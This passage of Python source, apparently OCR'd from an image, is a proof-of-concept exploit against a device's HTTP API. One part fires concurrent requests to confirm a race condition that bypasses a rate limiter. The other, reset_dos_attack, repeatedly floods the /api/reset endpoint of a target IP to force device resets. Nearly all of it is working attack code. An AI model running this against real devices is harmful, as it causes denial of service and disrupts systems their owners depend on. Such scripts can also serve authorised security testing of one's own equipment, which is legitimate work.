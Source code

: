 ```python

            with lock:
                if response.status_code == 429:
                    results['rate_limited'] += 1
                    return False
                elif response.status_code == 200:
                    results['allowed'] += 1
                    return True
                else:
                    results['errors'] += 1
                    return None
        except Exception as e:
            with lock:
                results['errors'] += 1
            return None

    # Scenario: Send 8 concurrent requests within 300ms window
    # Expected: First 1 succeeds, next 7 get 429 (rate limited)
    # Actual: Multiple requests succeed due to race condition

    with ThreadPoolExecutor(max_workers=8) as executor:
        futures = [executor.submit(send_request, i) for i in range(8)]
        for future in as_completed(futures):
            future.result()

    print(f"[*] Results after concurrent attack:")
    print(f"    Allowed: {results['allowed']} (expected 1)")
    print(f"    Rate Limited: {results['rate_limited']} (expected 7)")
    print(f"    Errors: {results['errors']}")

    if results['allowed'] > 1:
        print(f"[+] RACE CONDITION CONFIRMED: {results['allowed']} requests bypassed rate limit!")
        return True

    return False


def reset_dos_attack(target_ip, num_resets=5):
    """
    Exploit race condition to trigger multiple device resets
    ROUTE_RESET has 1000ms window; exploit timing to slip through
    """
    print(f"[*] Attempting to bypass RESET rate limiting...")

    for attempt in range(num_resets):
        # Send multiple concurrent POST requests to /api/reset
        threads = []
        for i in range(4):
            t = threading.Thread(
                target=lambda: requests.post(
                    f'http://{target_ip}/api/reset',
                    timeout=1
                )
            )
            t.start()
            threads.append(t)

        for t in threads:
            t.join()

        print(f"[*] Wave {attempt+1} sent - device may have reset")
        time.sleep(0.5)
```